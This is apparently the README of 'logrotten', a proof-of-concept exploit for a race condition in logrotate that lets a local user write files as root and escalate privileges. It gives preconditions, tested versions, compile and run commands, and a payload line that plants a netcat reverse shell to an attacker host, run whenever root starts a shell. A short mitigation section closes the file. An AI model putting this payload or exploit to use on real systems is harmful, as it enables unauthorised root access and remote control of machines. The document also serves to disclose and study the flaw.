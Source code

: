 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition vulnerability when it's exectued with
    "create"-option.
  - If logrotate is executed as root, with the "create"-option and the user
    is in control of the logfile path, it is possible to abuse a race-condition 
    to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was reported by Marc Haber at the debian bug report
    ( https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=400198 )
  - and an issue was opened at the logrotate github-repository by cgzones
    ( https://github.com/logrotate/logrotate/issues/216 )
  - This vulnerability was also a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - "create" option is set in the logrotate configuration

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; /bin/nc -e /bin/bash myhost 3333 &; fi" > payloadfile
```

## Run exploit
```
nice -n -20 ./logrotten /tmp/log/pwnme.log payloadfile
```
## Known Problems
  - It's hard to win the race inside a docker container

## Mitigation
  - make sure that logpath is owned by root
  - or use option "nocreate"

## Author
  - Wolfgang Hotwagner

## Contact
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges


